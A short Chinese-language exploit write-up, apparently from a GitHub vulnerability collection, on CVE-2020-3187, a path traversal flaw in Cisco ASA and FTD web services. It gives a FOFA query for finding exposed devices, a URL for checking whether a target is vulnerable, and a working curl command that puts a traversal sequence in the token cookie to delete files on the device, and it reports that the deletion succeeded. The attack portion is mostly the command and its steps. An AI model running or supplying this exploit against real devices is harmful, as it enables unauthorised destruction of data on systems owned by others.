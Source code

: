 # CISCO-ASA设备任意文件删除漏洞-CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

Cisco ASA设备

![](CISCO-ASA设备任意文件删除漏洞-CVE-2020-3187.assets/1627363591215081.jpg)

Cisco FTD设备

![](CISCO-ASA设备任意文件删除漏洞-CVE-2020-3187.assets/16273635914122372.jpg)

## FOFA

> [!NOTE]
>
> /+CSCOE+/
>
> Cisco-ASA

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](CISCO-ASA设备任意文件删除漏洞-CVE-2020-3187.assets/16273635917389598.jpg)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](CISCO-ASA设备任意文件删除漏洞-CVE-2020-3187.assets/16273635918996322.jpg)

使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```

![](CISCO-ASA设备任意文件删除漏洞-CVE-2020-3187.assets/16273635920213828.jpg)

成功删除图标